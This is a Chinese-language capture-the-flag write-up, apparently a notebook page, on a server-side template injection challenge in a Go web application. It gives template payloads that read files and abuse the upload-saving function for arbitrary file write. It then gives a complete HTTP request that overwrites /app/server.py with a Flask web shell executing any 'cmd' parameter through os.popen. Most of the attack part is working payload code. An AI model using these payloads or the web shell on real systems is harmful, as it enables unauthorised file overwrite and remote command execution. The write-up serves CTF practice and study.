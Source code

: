 报错获取app.py位置
![image.png](https://cdn.nlark.com/yuque/0/2023/png/35980243/1689258851364-7a9854e2-0980-4b86-a671-01568b97c4c4.png#averageHue=%23e1e1e1&clientId=ub1754b14-d6ff-4&from=paste&height=843&id=u34dee558&originHeight=843&originWidth=1291&originalType=binary&ratio=1&rotation=0&showTitle=false&size=86838&status=done&style=none&taskId=udea54ddb-ee6e-4daf-a7ca-e9fa0a18ff4&title=&width=1291)
读文件：
```python
{%include c.Request.Referer()%}

{%include c.Request.Host()%}
```
![image.png](https://cdn.nlark.com/yuque/0/2023/png/35980243/1689258789756-20b22129-4660-42e5-a32f-fcea14aad6e3.png#averageHue=%23f6f5f5&clientId=ub1754b14-d6ff-4&from=paste&height=793&id=pvPXr&originHeight=793&originWidth=1362&originalType=binary&ratio=1&rotation=0&showTitle=false&size=125372&status=done&style=none&taskId=u427028ae-befa-4c9c-ae8e-d7a21be25c9&title=&width=1362)

Context --> 找到上传文件，`SaveUploadedFile(file *multipart.FileHeader,dst string)`，需要`FileHeader` --> `FormFile(name string)(*multipart.FileHeader,error)`
需要两个可控变量，一个给dst，一个给name，用上面的Host和Referer
写文件：
```python
{{c.SaveUploadedFile(c.FormFile(c.Request.Host),c.Request.Referer())}}
```
```
GET /admin?name={{c.SaveUploadedFile(c.FormFile(c.Request.UserAgent()),c.Request.UserAgent())}} HTTP/1.1
Host: 8d29d285-1292-41ef-85ba-b8c310a6ec3a.challenge.ctf.show
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryrxtSm5i2S6anueQi
User-Agent: /app/server.py
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: session-name=MTY4OTI1ODAwNXxEdi1CQkFFQ180SUFBUkFCRUFBQUlfLUNBQUVHYzNSeWFXNW5EQVlBQkc1aGJXVUdjM1J5YVc1bkRBY0FCV0ZrYldsdXzyv2RXchGZcXdaKPew1jYXVZTOE270NGdCUSZk-SNumg==
Connection: close
Content-Length: 589

------WebKitFormBoundaryrxtSm5i2S6anueQi
Content-Disposition: form-data; name="/app/server.py"; filename="server.py"
Content-Type: text/plain

from flask import Flask, request
import os

app = Flask(__name__)

@app.route('/shell')
def shell():
    cmd = request.args.get('cmd')
    if cmd:
        return os.popen(cmd).read()
    else:
        return 'shell'

if __name__== "__main__":
    app.run(host="127.0.0.1",port=5000,debug=True)
------WebKitFormBoundaryrxtSm5i2S6anueQi
Content-Disposition: form-data; name="submit"

------WebKitFormBoundaryrxtSm5i2S6anueQi--
```
![image.png](https://cdn.nlark.com/yuque/0/2023/png/35980243/1689260138618-9d55044c-e710-4dc0-97b9-1b73a313cdf9.png#averageHue=%23f7f5f5&clientId=ub1754b14-d6ff-4&from=paste&height=793&id=u3c4467b9&originHeight=793&originWidth=1216&originalType=binary&ratio=1&rotation=0&showTitle=false&size=117259&status=done&style=none&taskId=u741e1c0d-a43d-48b8-9c37-06ec939df19&title=&width=1216)
覆盖成功，执行命令
![image.png](https://cdn.nlark.com/yuque/0/2023/png/35980243/1689261099202-9fd14c4c-293d-4e96-ba09-5b6dce073883.png#averageHue=%23f8f7f7&clientId=ub1754b14-d6ff-4&from=paste&height=793&id=u68f037dc&originHeight=793&originWidth=1362&originalType=binary&ratio=1&rotation=0&showTitle=false&size=121870&status=done&style=none&taskId=u562d7e69-4132-4711-aa6d-18420a12337&title=&width=1362)
### DeserBug（java，之后再看